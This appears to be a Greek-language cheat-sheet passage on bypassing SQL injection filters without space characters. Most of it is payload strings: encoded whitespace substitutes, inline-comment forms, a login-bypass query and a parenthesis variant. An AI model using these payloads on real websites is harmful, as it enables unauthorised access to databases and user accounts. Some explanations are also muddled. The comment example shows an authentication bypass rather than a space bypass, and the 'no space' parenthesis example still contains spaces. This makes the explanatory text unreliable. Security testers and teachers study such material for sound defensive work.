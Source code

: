 ### Παράκαμψη χωρίς κενά

Χωρίς κενό (%20) - παράκαμψη χρησιμοποιώντας εναλλακτικές κενού.
```sql
?id=1%09and%091=1%09--
?id=1%0Dand%0D1=1%0D--
?id=1%0Cand%0C1=1%0C--
?id=1%0Band%0B1=1%0B--
?id=1%0Aand%0A1=1%0A--
?id=1%A0and%A01=1%A0--
```
## Χωρίς Κενό - παράκαμψη χρησιμοποιώντας σχόλια

Η τεχνική της παράκαμψης χρησιμοποιώντας σχόλια είναι μια μέθοδος που χρησιμοποιείται για να παρακάμψει τον έλεγχο των κενών χαρακτήρων σε μια επίθεση SQL Injection. Αυτή η τεχνική επιτρέπει στον επιτιθέμενο να εισάγει κακόβουλο κώδικα SQL χωρίς να χρειάζεται να αντιμετωπίσει το πρόβλημα των κενών χαρακτήρων.

Για να χρησιμοποιήσετε αυτήν την τεχνική, απλά εισάγετε ένα σχόλιο SQL (όπως `--` ή `#`) μετά από το τμήμα του κώδικα που θέλετε να παρακάμψετε. Το σχόλιο θα αγνοηθεί από τον SQL ερωτηματοδότη και ο κακόβουλος κώδικας που ακολουθεί θα εκτελεστεί.

Παράδειγμα:

```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = 'password'
```

Στο παραπάνω παράδειγμα, το σχόλιο `--` παρακάμπτει τον έλεγχο του κενού χαρακτήρα μετά το `'admin'` και επιτρέπει την εκτέλεση του κακόβουλου κώδικα που ακολουθεί.
```sql
?id=1/*comment*/and/**/1=1/**/--
```
## Χωρίς Κενό - παράκαμψη χρησιμοποιώντας παρενθέσεις

Η τεχνική "χωρίς κενό" είναι μια μέθοδος παράκαμψης των φίλτρων εισόδου που χρησιμοποιούνται για την αποτροπή επιθέσεων SQL Injection. Αυτή η τεχνική εκμεταλλεύεται την ιδιότητα των παρενθέσεων στη γλώσσα SQL για να παρακάμψει τον έλεγχο των εισόδων.

Αντί να χρησιμοποιήσουμε τον χαρακτήρα κενού για να χωρίσουμε τις λέξεις στην επίθεση SQL Injection, μπορούμε να χρησιμοποιήσουμε παρενθέσεις για να περικλείσουμε τις λέξεις. Αυτό επιτρέπει στον επιτιθέμενο να παρακάμψει τον έλεγχο των εισόδων και να εκτελέσει κακόβουλο κώδικα SQL.

Παράδειγμα:

Αντί να χρησιμοποιήσουμε:

```
' OR '1'='1
```

Μπορούμε να χρησιμοποιήσουμε:

```
') OR ('1'='1
```
